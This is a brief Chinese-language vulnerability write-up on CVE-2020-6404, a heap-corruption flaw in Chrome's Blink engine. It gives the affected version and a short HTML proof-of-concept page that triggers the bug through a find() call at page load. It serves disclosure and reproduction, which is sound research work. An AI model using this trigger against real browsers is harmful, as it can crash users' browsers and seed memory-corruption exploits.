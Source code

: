 # （CVE-2020-6404）Google Chrome Blink 缓冲区错误漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2960](https://www.zhihuifly.com/t/topic/2960)

# （CVE-2020-6404）Google Chrome Blink 缓冲区错误漏洞

## 一、漏洞简介

在80.0.3987.87之前的Google Chrome中，Blink中的不当实现使远程攻击者有可能通过精心制作的HTML页面利用堆破坏。

## 二、漏洞影响

Google Chrome 80.0.3987.87

## 三、复现过程

### poc

```
<!DOCTYPE html>
<head>
<script type="text/javascript">
document.addEventListener("DOMContentLoaded", function(){
find(decodeURIComponent('\uFFFC'));
});
</script>
</head>
<body>
<legend></legend>
</body>
</html> 
```

![image](img/d7f0f43f5fa6e31cbdf002b00776d4a5.png)